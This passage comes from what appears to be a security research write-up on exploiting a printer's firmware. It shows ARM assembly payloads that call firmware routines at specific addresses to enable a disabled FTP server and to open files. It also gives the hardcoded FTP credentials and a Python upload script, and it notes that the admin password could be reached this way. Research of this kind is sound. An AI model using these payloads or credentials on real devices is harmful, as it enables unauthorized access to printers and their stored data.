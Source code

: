 ## FTP

Though we thought of multiple options to upload the image, we ended up deciding to use a legitimate feature of the printer: it can serve as an FTP server, which is disabled by default. Thus, we need to:

- Enable the `ftpd` service,
- Upload our image from the client,
- Read the image in a buffer.

In our firmware, the function to enable the `ftpd` service is located at `0x4185F664` and takes 4 arguments: the maximum number of simultaneous client, the timeout, the command port, and the data port. It can be enabled with the following payload:

```asm
mov r0, #0x3       ; Max clients
mov r1, #0x0       ; Timeout
mov r2, #21        ; Command port
mov r3, #20        ; Data port
mov r12, #0xF664
movt r12, #0x4185
blx r12
```

The `ftpd` service also has a feature to change directory. This doesn't really matter to us since the default directory is always `S:/`. We could however decide to change it to: either access data stored on other paths (e.g. the admin password) or to ensure our exploit works correctly even if the directory was somehow changed beforehand. To do so, we would need to call the function at `0x4185E2A4` with the `r0` register set to the address of the new path string.

Once enabled, the FTP server requires credentials to connect. Fortunately for us, they are hardcoded in the firmware as `guest` / `welcome.`. We can upload our image (called `a` in this example) with the following code:

```python
import ftplib

with ftplib.FTP(host="192.168.1.100", user="guest", passwd="welcome.") as ftp:
    with open("image.raw") as f:
        ftp.storbinary("STOR a", f)
```

## File system

We are simply left with reading the image from the filesystem. Thankfully, DRYOS has an abstraction layer to handle this, allowing us to only look for the equivalent of the usual `open`, `read`, and `close` functions. In our firmware, they are located respectively at `0x416917C8`, `0x41691A20`, and `0x41691878`. Assuming `r5` contains the address of our image path, we can open the file like so:

```asm
mov r2, #0x1C0
mov r1, #0
mov r0, r5         ; Image path
mov r12, #0x17C8
movt r12, #0x4169
blx r12
mov r5, r0         ; File handle

; Exit if there was an error opening the file
cmp r5, #0
ble .end
```
